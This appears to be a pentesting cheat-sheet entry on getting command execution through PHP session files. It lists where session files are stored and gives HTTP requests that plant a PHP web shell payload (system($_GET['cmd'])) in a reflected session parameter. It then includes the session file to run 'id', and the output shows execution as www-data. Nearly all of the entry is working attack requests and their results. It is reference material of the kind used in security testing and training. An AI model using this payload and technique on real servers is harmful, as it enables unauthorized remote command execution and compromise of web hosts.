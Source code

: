 # PHP session

When a web server wants to handle sessions, it can use PHP session cookies (`PHPSESSID`).

1. Finding where the sessions are stored.

 Examples:

 * Linux : `/var/lib/php5/sess_[PHPSESSID]`
 * Linux : `/var/lib/php/sessions/sess_[PHPSESSID]`
 * Windows : `C:\Windows\Temp\`
2. Displaying a `PHPSESSID` to see if any parameter is reflected inside.

 Example:

 * The user name for the session (from a parameter called `user`)
 * The language used by the user (from a parameter called `lang`)

 _Exemple :_

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID] HTTP/2

username|s:6:"tester";lang|s:7:"English";
```

3\. Inject some PHP code in the reflected parameter in the session

```http
GET /?user=<%3fphp+system($_GET['cmd'])%3b+%3f> HTTP/2
```

4\. Call the `session file`with the vulnerable parameter to trigger a command exection

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID]&cmd=id HTTP/2

</h2> username|s:30:"uid=33(www-data) gid=33(www-data) groups=33(www-data)
";lang|s:7:"English";
```
